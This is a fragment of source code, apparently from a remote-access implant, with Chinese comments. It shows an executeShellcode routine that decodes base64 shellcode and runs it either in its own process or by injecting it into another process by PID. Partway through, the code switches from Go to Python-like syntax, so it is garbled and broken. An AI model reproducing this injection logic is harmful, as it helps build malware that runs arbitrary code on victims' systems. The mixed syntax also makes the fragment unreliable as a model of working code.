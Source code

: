 ```
	if err != nil {
		panic(err)
	}

	// 延迟关闭文件
	defer f.Close()
	// 向文件写入字符串，如果出错则记录警告信息
	if _, err = f.WriteString(output); err != nil {
		message("warn", fmt.Sprintf("Failed to write to file: %s, error: %s", filename, output))
	}
}

// 执行 shellcode 的函数
func (a *Agent) executeShellcode(shellcode messages.Shellcode) error {
	// 如果处于调试模式，则记录接收到的 shellcode 参数信息
	if a.Debug {
		message("debug", fmt.Sprintf("Received input parameter for executeShellcode function: %v", shellcode))
	}

	// 解码 shellcode 字符串为字节数组
	shellcodeBytes, errDecode := base64.StdEncoding.DecodeString(shellcode.Bytes)
# 如果解码出现错误
if errDecode != nil:
    # 如果设置了详细输出，打印警告信息
    if a.Verbose:
        message("warn", fmt.Sprintf("There was an error decoding the Base64 string: %s", shellcode.Bytes))
        message("warn", errDecode.Error())
    # 返回解码错误
    return errDecode

# 如果设置了详细输出，打印执行方法信息
if a.Verbose:
    message("info", fmt.Sprintf("Shelcode execution method: %s", shellcode.Method))

# 如果设置了调试模式，打印执行 shellcode 信息
if a.Debug:
    message("info", fmt.Sprintf("Executing shellcode %s", shellcodeBytes))

# 如果 shellcode 的执行方法是 "self"
if shellcode.Method == "self":
    # 执行 shellcode，并捕获可能的错误
    err := ExecuteShellcodeSelf(shellcodeBytes)
    # 如果执行出错
    if err != nil:
        # 如果设置了详细输出，打印警告信息
        if a.Verbose:
            message("warn", fmt.Sprintf("There was an error executing the shellcode: \r\n%s", shellcodeBytes))
# 如果 shellcode 的执行方式是本地的
if shellcode.Method == "local":
    # 执行本地 shellcode
    err := ExecuteShellcodeLocal(shellcodeBytes, shellcode.PID)
    # 如果执行出错
    if err != nil:
        # 如果设置了详细输出，打印错误信息
        if a.Verbose:
            message("warn", fmt.Sprintf("There was an error executing the shellcode: \r\n%s", shellcodeBytes))
            message("warn", fmt.Sprintf("Error: %s", err.Error()))
    # 如果执行成功
    else:
```